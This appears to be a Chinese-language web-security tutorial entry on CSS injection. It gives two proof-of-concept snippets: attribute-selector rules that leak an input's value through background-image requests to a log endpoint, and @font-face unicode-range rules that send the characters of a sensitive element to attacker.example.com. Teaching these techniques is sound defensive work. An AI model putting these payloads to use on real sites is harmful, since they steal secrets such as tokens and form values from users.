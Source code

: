 CSS 注入
================================

基本介绍
--------------------------------
CSS注入最早开始于利用CSS中的 ``expression()`` ``url()`` ``regex()`` 等函数或特性来引入外部的恶意代码，但是随着浏览器的发展，这种方式被逐渐禁用，与此同时，出现了一些新的攻击方式。

CSS selectors
--------------------------------

::

    <style>
        #form2 input[value^='a'] { background-image: url(http://localhost/log.php/a); }
        #form2 input[value^='b'] { background-image: url(http://localhost/log.php/b); }
        #form2 input[value^='c'] { background-image: url(http://localhost/log.php/c); }
        [...]
    </style>
    <form action="http://example.com" id="form2">
        <input type="text" id="secret" name="secret" value="abc">
    </form>


上图是利用CSS selectors完成攻击的一个示例


Abusing Unicode Range
--------------------------------

当可以插入CSS的时候，可以使用 ``font-face`` 配合 ``unicode-range`` 获取目标网页对应字符集。PoC如下

::

    <style>
    @font-face{
     font-family:poc;
     src: url(http://attacker.example.com/?A); /* fetched */
     unicode-range:U+0041;
    }
    @font-face{
     font-family:poc;
     src: url(http://attacker.example.com/?B); /* fetched too */
     unicode-range:U+0042;
    }
    @font-face{
     font-family:poc;
     src: url(http://attacker.example.com/?C); /* not fetched */
     unicode-range:U+0043;
    }
    #sensitive-information{
     font-family:poc;
    }
    </style>
    <p id="sensitive-information">AB</p>


当字符较多时，则可以结合 ``::first-line``  等CSS属性缩小范围，以获取更精确的内容